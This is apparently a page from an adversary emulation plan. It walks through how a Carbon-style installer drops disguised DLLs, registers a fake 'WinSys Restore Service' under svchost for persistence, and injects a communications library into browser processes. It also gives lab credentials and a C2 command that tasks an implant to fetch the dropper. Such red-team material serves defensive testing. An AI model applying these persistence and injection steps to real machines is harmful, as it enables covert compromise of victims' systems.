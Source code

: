 The CARBON-DLL installer will create the following subdirectories in
`C:\Program Files\Windows NT` for tasking-related files and output:
- `C:\Program Files\Windows NT\2028`
- `C:\Program Files\Windows NT\0511`
- `C:\Program Files\Windows NT\Nlts`

The CARBON-DLL installer will drop the following files to disk:
- CAST-128 encrypted configuration file to
`%programfiles%\Windows NT\setuplst.xml`
- Loader DLL to `%systemroot%\System32\mressvc.dll`
- Orchestrator DLL to `%programfiles%\Windows NT\MSSVCCFG.dll`
- Communications library DLL to `%programfiles%\Windows NT\msxhlp.dll`

After successful file writes, the CARBON-DLL installer will create the `WinSys Restore Service` 
service, written as `WinResSvc`, to execute the loader DLL.

The CARBON-DLL installer then performs two registry writes to make sure that
the service can find the loader DLL and that the service will run under
`svchost`:

1. The loader DLL path is written to registry key
`HKLM:\SYSTEM\CurrentControlSet\services\WinResSvc\Parameters` under the
`ServiceDll` value
1. The service is written to registry key
`HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` under the
`WinSysRestoreGroup` value

Once the service is set up, the CARBON-DLL installer will start the service
before terminating its own execution.

On service execution, the loader DLL `mressvc.dll` will run under `svchost` and
execute the orchestrator DLL `MSSVCCFG.dll`. The orchestrator DLL will then
inject the communications library DLL `msxhlp.dll` into processes typically
using HTTP, such as Internet Explorer. Several configuration, logging, and
tasking files are dropped in `C:\Program Files\Windows NT`. 

---

### :biohazard: Procedures

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)` as `Gunter` 

* Ensure you have a Microsoft Edge window open with OWA. If not:

  * Open up Microsoft Edge and browse to `https://brieftragerin.skt.local/owa`. Login:

  | Username   | Password |
  | :--------: | :---------------: |
  | skt\Gunter  | Password1! |

:arrow_right: Switch back to your Kali terminal and task the SYSTEM level EPIC implant to download the CARBON-DLL installer:
```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'name | C:\Windows\System32\WinResSvc.exe | dropper.exe'
```

